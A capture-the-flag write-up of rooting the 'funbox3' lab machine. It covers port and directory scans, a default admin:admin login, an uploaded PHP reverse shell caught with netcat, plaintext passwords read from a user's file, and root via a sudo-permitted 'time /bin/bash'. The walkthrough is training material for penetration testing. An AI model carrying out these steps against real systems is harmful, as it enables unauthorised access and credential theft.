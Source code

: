 -> I started by enumerating the machine 
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.177.111

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 10:37 EST
Nmap scan report for 192.168.177.111
Host is up (0.14s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.99 seconds
```
-> I noticed it had an web page, so I look for hidden directories
```
┌──(root㉿kali)-[/home/astra]
└─# dirbuster -u http://192.168.177.111/ -l /usr/share/wordlists/wfuzz/general/common.txt 
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /icons/ - 403
Dir found: /admin/ - 200
Dir found: /secret/ - 200
Dir found: /store/ - 200
File found: /robots.txt - 200
Dir found: /admin/assets/ - 200
Dir found: /admin/assets/plugins/ - 200
File found: /store/admin.php - 200
```
-> I noticed it had an /store/admin.php, it requested an login, so I input admin:admin, and I got in.
-> I go to http://192.168.177.111/store/admin_add.php and try to upload an reverse php shell, first I initiate netcat listening on port 7777.
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777                                    
listening on [any] 7777 ...
```
![Screenshot_3](https://user-images.githubusercontent.com/47869173/220700851-98432f1e-d888-4f75-a197-47a2278cb56e.png)
![Screenshot_4](https://user-images.githubusercontent.com/47869173/220700840-07a332b5-a4a0-4a83-9f75-9dbddb09ee19.png)
![image](https://user-images.githubusercontent.com/47869173/220700845-280277f2-3418-4e48-a798-f49c0219998d.png)

-> After uploading the shell, I find it here http://192.168.177.111/store/bootstrap/img, and I click on the shell, andddd, I got access!
```
┌──(root㉿kali)-[/home/astra]
└─# nc -lvnp 7777                                    
listening on [any] 7777 ...
connect to [192.168.45.5] from (UNKNOWN) [192.168.177.111] 45016
Linux funbox3 5.4.0-42-generic #46-Ubuntu SMP Fri Jul 10 00:24:02 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:59:29 up  1:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$  python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@funbox3:/$ 
```
-> I thought it would have the user flag right away, but I was wrong, moving to home directory I found an interesting password file under tony's user
```
www-data@funbox3:/$ ls
ls
bin    dev   lib    libx32      mnt   root  snap      sys  var
boot   etc   lib32  lost+found  opt   run   srv       tmp
cdrom  home  lib64  media       proc  sbin  swap.img  usr
www-data@funbox3:/$ cd home
cd home
www-data@funbox3:/home$ ls
ls
tony
www-data@funbox3:/home$ cd tony
cd tony
www-data@funbox3:/home/tony$ ls
ls
password.txt
www-data@funbox3:/home/tony$ cat password.txt
cat password.txt
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
www-data@funbox3:/home/tony$ 
```
-> After that I login with tony's user and escalate privileges 
```

www-data@funbox3:/home/tony$ ssh -l tony 192.168.177.111

ssh -l tony 192.168.177.111
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.177.111 (192.168.177.111)' can't be established.
ECDSA key fingerprint is SHA256:lDqW7tOK4ZCIRla+OSX6KVPDsRFL04w865Q2Q7MR7+k.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
tony@192.168.177.111's password: yxcvbnmYYY


tony@funbox3:~$ ls 
ls
password.txt
tony@funbox3:~$ cat pas
cat password.txt 
ssh: yxcvbnmYYY
gym/admin: asdfghjklXXX
/store: admin@admin.com admin
tony@funbox3:~$ sudo -l
sudo -l
Matching Defaults entries for tony on funbox3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tony may run the following commands on funbox3:
    (root) NOPASSWD: /usr/bin/yelp
    (root) NOPASSWD: /usr/bin/dmf
    (root) NOPASSWD: /usr/bin/whois
    (root) NOPASSWD: /usr/bin/rlogin
    (root) NOPASSWD: /usr/bin/pkexec
    (root) NOPASSWD: /usr/bin/mtr
    (root) NOPASSWD: /usr/bin/finger
    (root) NOPASSWD: /usr/bin/time
    (root) NOPASSWD: /usr/bin/cancel
    (root) NOPASSWD:
        /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh
tony@funbox3:~$ sudo time /bin/bash
sudo time /bin/bash
root@funbox3:/home/tony# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox3:/home/tony# cd
cd
root@funbox3:~# cd root
cd root
bash: cd: root: No such file or directory
root@funbox3:~# ls
ls
proof.txt  root.flag  snap
root@funbox3:~# cat pro
cat proof.txt 
89940c54a5eff574e10d5f1f0cfe3f5a
```
-> And we got the root flag !
